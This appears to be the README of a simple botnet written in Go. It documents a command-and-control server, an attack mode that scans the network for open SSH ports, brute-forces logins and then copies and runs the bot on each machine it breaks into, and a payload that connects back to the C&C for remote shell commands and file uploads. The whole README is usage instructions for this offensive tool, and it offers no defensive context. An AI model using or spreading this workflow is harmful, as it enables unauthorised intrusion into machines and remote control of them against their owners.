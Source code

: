 ## Go Botnet

Simple botnet written in GO. It features a command and control over cli and a botnet payload that communicates to the C&C over tcp.

# Usage:

Compile from the `botnet/cmd/botnet` directory.

 - Run the C&C:

```bash
botnet listen
```

This starts up a C&C that listens on default port `9999`.

- Attack a machine to get the botnet on the machine. The only supported attack right now is brute forcing SSH 

```bash
botnet -ufile /paht/to/usernames/file -pfile /path/to/passwords/file attack ssh
```

This will scan all the ips on the network find which ips have port 22 open and attempt to brute force its way in. Once it has access it will SCP the botnet binary over and execute the botnet client to connect to our command and control center

 - Connect a payload to the C&C:

```bash
botnet -target 192.168.2.2 -port 9999 connect
```

This will start a botnet payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<CC:#>`

show all payloads connected to C&C:

```bash
<CC:#> show
```

This will return the payload ids and addresses

```
ID: 0 Address: 127.0.0.1:64635
ID: 1 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads id:

```bash
<CC:#> use 0
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<CC#>`
